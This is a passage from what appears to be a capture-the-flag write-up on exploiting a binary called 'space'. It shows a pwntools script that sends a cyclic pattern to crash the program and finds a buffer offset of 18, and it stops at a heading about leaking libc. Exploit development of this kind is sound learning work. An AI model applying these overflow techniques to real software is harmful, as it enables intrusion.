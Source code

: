 ![crash](Pictures/crash.png)

We can see that we have got a crash. Upon checking the offset of the offset it is found to be 18. </br>

```
>>> cyclic_find(0x61666161)
18
```

```
from pwn import *

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
sh = gdb.debug("./space")
#for remote
#sh = remote("ip",1234)
padding = cyclic(30)
sh.sendlineafter("> ",padding)
sh.interactive()
```

This is the crash for the program.



### Trying to leak the libc
